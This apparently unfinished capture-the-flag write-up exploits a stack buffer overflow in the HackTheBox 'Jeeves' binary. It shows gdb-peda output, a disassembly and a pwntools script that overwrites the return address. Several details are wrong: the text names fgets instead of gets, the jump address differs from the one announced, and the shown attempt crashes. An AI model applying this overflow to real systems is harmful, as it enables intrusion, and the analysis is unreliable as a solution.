

# Jeeves Binary Explotation

After download and unzip file lets get first information:

```shell
file jeeves            
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

Check security and debug compiled options:

```shell
gdb -q ./jeeves
Reading symbols from ./jeeves...
(No debugging symbols found in ./jeeves)
gdb-peda$ check
checkpoint  checksec    
gdb-peda$ check
checkpoint  checksec    
gdb-peda$ checksec 
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
gdb-peda$ 
```

Take a look main with ghidra:



Trying overflow on fgets

```shell
gdb -q ./jeeves                           main 
Reading symbols from ./jeeves...
(No debugging symbols found in ./jeeves)
gdb-peda$ start
[----------------------------------registers-----------------------------------]
RAX: 0x5555555551e9 (<main>:	endbr64)
RBX: 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
RCX: 0x7ffff7f89760 --> 0x7ffff7f8b220 --> 0x0 
RDX: 0x7fffffffe848 --> 0x7fffffffeb3f ("SHELL=/bin/bash")
RSI: 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
RDI: 0x1 
RBP: 0x7fffffffe720 --> 0x1 
RSP: 0x7fffffffe720 --> 0x1 
RIP: 0x5555555551f1 (<main+8>:	sub    rsp,0x40)
R8 : 0x555555555320 (<__libc_csu_fini>:	endbr64)
R9 : 0x7ffff7fce890 (endbr64)
R10: 0x7fffffffe450 --> 0x800000 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe848 --> 0x7fffffffeb3f ("SHELL=/bin/bash")
R14: 0x0 
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555551e9 <main>:	endbr64 
   0x5555555551ed <main+4>:	push   rbp
   0x5555555551ee <main+5>:	mov    rbp,rsp
=> 0x5555555551f1 <main+8>:	sub    rsp,0x40
   0x5555555551f5 <main+12>:	mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x5555555551fc <main+19>:	lea    rdi,[rip+0xe05]        # 0x555555556008
   0x555555555203 <main+26>:	mov    eax,0x0
   0x555555555208 <main+31>:	call   0x5555555550a0 <printf@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe720 --> 0x1 
0008| 0x7fffffffe728 --> 0x7ffff7dd4290 (mov    edi,eax)
0016| 0x7fffffffe730 --> 0x7fffffffe820 --> 0x7fffffffe828 --> 0x38 ('8')
0024| 0x7fffffffe738 --> 0x5555555551e9 (<main>:	endbr64)
0032| 0x7fffffffe740 --> 0x155554040 
0040| 0x7fffffffe748 --> 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0048| 0x7fffffffe750 --> 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0056| 0x7fffffffe758 --> 0x7af67fa890390873 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Temporary breakpoint 1, 0x00005555555551f1 in main ()
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
gdb-peda$ r
Starting program: /home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Hello, good sir!
May I have your name? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A, hope you have a good day!\n")
RDI: 0x7fffffffe180 --> 0x7ffff7e00160 (<funlockfile>:	endbr64)
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7fffffffe728 ("IAAeAA4A")
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0x555555559701 --> 0x0 
R9 : 0x73 ('s')
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe848 --> 0x7fffffffeb3f ("SHELL=/bin/bash")
R14: 0x0 
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555552a3 <main+186>:	call   0x5555555550b0 <close@plt>
   0x5555555552a8 <main+191>:	mov    eax,0x0
   0x5555555552ad <main+196>:	leave  
=> 0x5555555552ae <main+197>:	ret    
   0x5555555552af:	nop
   0x5555555552b0 <__libc_csu_init>:	endbr64 
   0x5555555552b4 <__libc_csu_init+4>:	push   r15
   0x5555555552b6 <__libc_csu_init+6>:	lea    r15,[rip+0x2ad3]        # 0x555555557d90
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe728 ("IAAeAA4A")
0008| 0x7fffffffe730 --> 0x7fffffffe800 --> 0x7fffffffe830 --> 0x1 
0016| 0x7fffffffe738 --> 0x5555555551e9 (<main>:	endbr64)
0024| 0x7fffffffe740 --> 0x155554040 
0032| 0x7fffffffe748 --> 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0040| 0x7fffffffe750 --> 0x7fffffffe838 --> 0x7fffffffeafe ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0048| 0x7fffffffe758 --> 0xd507cfd5fb579c69 
0056| 0x7fffffffe760 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00005555555552ae in main ()
gdb-peda$ patts
Registers contain pattern buffer:
RBP+0 found at offset: 64
Registers point to pattern buffer:
[RSP] --> offset 72 - size ~8
Pattern buffer found at:
0x00005555555592a6 : offset    0 - size   80 ([heap])
0x00005555555596b0 : offset    0 - size   80 ([heap])
0x00007fffffffe6e0 : offset    0 - size   80 ($sp + -0x48 [-18 dwords])
References to pattern buffer found at:
0x00007ffff7f899d8 : 0x00005555555596b0 (/usr/lib/libc.so.6)
0x00007ffff7f899e0 : 0x00005555555596b0 (/usr/lib/libc.so.6)
0x00007ffff7f899e8 : 0x00005555555596b0 (/usr/lib/libc.so.6)
0x00007ffff7f899f0 : 0x00005555555596b0 (/usr/lib/libc.so.6)
0x00007ffff7f899f8 : 0x00005555555596b0 (/usr/lib/libc.so.6)
0x00007fffffffe4c0 : 0x00005555555596b0 ($sp + -0x268 [-154 dwords])
0x00007fffffffe1b0 : 0x00007fffffffe6e0 ($sp + -0x578 [-350 dwords])
0x00007fffffffe608 : 0x00007fffffffe6e0 ($sp + -0x120 [-72 dwords])
0x00007fffffffe628 : 0x00007fffffffe6e0 ($sp + -0x100 [-64 dwords])
0x00007fffffffe668 : 0x00007fffffffe6e0 ($sp + -0xc0 [-48 dwords])
gdb-peda$ 
```

Seems offset is 72, lets try:

```shell
gdb-peda$ pattern create 72
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AA'
gdb-peda$ 
```
Lets dissasemble main:

```shell
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x00005555555551e9 <+0>:	endbr64 
   0x00005555555551ed <+4>:	push   rbp
   0x00005555555551ee <+5>:	mov    rbp,rsp
=> 0x00005555555551f1 <+8>:	sub    rsp,0x40
   0x00005555555551f5 <+12>:	mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00005555555551fc <+19>:	lea    rdi,[rip+0xe05]        # 0x555555556008
   0x0000555555555203 <+26>:	mov    eax,0x0
   0x0000555555555208 <+31>:	call   0x5555555550a0 <printf@plt>
   0x000055555555520d <+36>:	lea    rax,[rbp-0x40]
   0x0000555555555211 <+40>:	mov    rdi,rax
   0x0000555555555214 <+43>:	mov    eax,0x0
   0x0000555555555219 <+48>:	call   0x5555555550d0 <gets@plt>
   0x000055555555521e <+53>:	lea    rax,[rbp-0x40]
   0x0000555555555222 <+57>:	mov    rsi,rax
   0x0000555555555225 <+60>:	lea    rdi,[rip+0xe04]        # 0x555555556030
   0x000055555555522c <+67>:	mov    eax,0x0
   0x0000555555555231 <+72>:	call   0x5555555550a0 <printf@plt>
   0x0000555555555236 <+77>:	cmp    DWORD PTR [rbp-0x4],0x1337bab3
   0x000055555555523d <+84>:	jne    0x5555555552a8 <main+191>
   0x000055555555523f <+86>:	mov    edi,0x100
   0x0000555555555244 <+91>:	call   0x5555555550e0 <malloc@plt>
   0x0000555555555249 <+96>:	mov    QWORD PTR [rbp-0x10],rax
   0x000055555555524d <+100>:	mov    esi,0x0
   0x0000555555555252 <+105>:	lea    rdi,[rip+0xdfc]        # 0x555555556055
   0x0000555555555259 <+112>:	mov    eax,0x0
   0x000055555555525e <+117>:	call   0x5555555550f0 <open@plt>
   0x0000555555555263 <+122>:	mov    DWORD PTR [rbp-0x14],eax
   0x0000555555555266 <+125>:	mov    rcx,QWORD PTR [rbp-0x10]
   0x000055555555526a <+129>:	mov    eax,DWORD PTR [rbp-0x14]
   0x000055555555526d <+132>:	mov    edx,0x100
   0x0000555555555272 <+137>:	mov    rsi,rcx
   0x0000555555555275 <+140>:	mov    edi,eax
   0x0000555555555277 <+142>:	mov    eax,0x0
   0x000055555555527c <+147>:	call   0x5555555550c0 <read@plt>
   0x0000555555555281 <+152>:	mov    rax,QWORD PTR [rbp-0x10]
   0x0000555555555285 <+156>:	mov    rsi,rax
   0x0000555555555288 <+159>:	lea    rdi,[rip+0xdd1]        # 0x555555556060
   0x000055555555528f <+166>:	mov    eax,0x0
   0x0000555555555294 <+171>:	call   0x5555555550a0 <printf@plt>
   0x0000555555555299 <+176>:	mov    eax,DWORD PTR [rbp-0x14]
   0x000055555555529c <+179>:	mov    edi,eax
   0x000055555555529e <+181>:	mov    eax,0x0
   0x00005555555552a3 <+186>:	call   0x5555555550b0 <close@plt>
   0x00005555555552a8 <+191>:	mov    eax,0x0
   0x00005555555552ad <+196>:	leave  
   0x00005555555552ae <+197>:	ret    
End of assembler dump.
gdb-peda$ 

```

Try to jumb just to 0x555555556055. Create python script with pwn:

```python
from pwn import *

offset = b"A" * 72
jump = p64(0x555555556060, endian="little")
serverip = "178.62.13.127"
port = 30495

exploit = offset + jump 

#server = remote(serverip, port)
#server = elf.process()
#server.sendlineafter("?", exploit)
#server.interactive()

f = open('exploit.bin', 'wb')
f.write(exploit)
f.close()

```

Run gdb jeeves:

```shell
gdb-peda$ r < exploit.bin
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffe6e8 --> 0x7fffffffe9c3 ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("May I have your name? Hello ", 'A' <repeats 72 times>, "``UUUU, hope you have a good day!\n")
RDI: 0x7fffffffe030 --> 0x7ffff7dfc160 (<funlockfile>:	endbr64)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe5e0 --> 0x7fffffffe600 --> 0x7fffffffe6e8 --> 0x7fffffffe9c3 ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
RIP: 0x555555556060 ("Pleased to make your acquaintance. Here's a small gift: %s\n")
R8 : 0x0 
R9 : 0x73 ('s')
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe6f8 --> 0x7fffffffea04 ("SHELL=/bin/bash")
R14: 0x0 
R15: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x10216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555556058:	addr32 cs je 0x5555555560d4
   0x55555555605c:	je     0x55555555605e
   0x55555555605e:	add    BYTE PTR [rax],al
=> 0x555555556060:	push   rax
   0x555555556061:	ins    BYTE PTR es:[rdi],dx
   0x555555556062:	gs (bad) 
   0x555555556064:	jae    0x5555555560cb
   0x555555556066:	and    BYTE PTR fs:[rdi+rbp*2+0x20],dh
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe5e0 --> 0x7fffffffe600 --> 0x7fffffffe6e8 --> 0x7fffffffe9c3 ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0008| 0x7fffffffe5e8 --> 0x5555555551e9 (<main>:	endbr64)
0016| 0x7fffffffe5f0 --> 0x155554040 
0024| 0x7fffffffe5f8 --> 0x7fffffffe6e8 --> 0x7fffffffe9c3 ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0032| 0x7fffffffe600 --> 0x7fffffffe6e8 --> 0x7fffffffe9c3 ("/home/darthv/git/badorius/vulnhub/hackthebox/Jeeves/Files/jeeves")
0040| 0x7fffffffe608 --> 0x84caa9bc7013e49a 
0048| 0x7fffffffe610 --> 0x0 
0056| 0x7fffffffe618 --> 0x7fffffffe6f8 --> 0x7fffffffea04 ("SHELL=/bin/bash")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555556060 in ?? ()
```
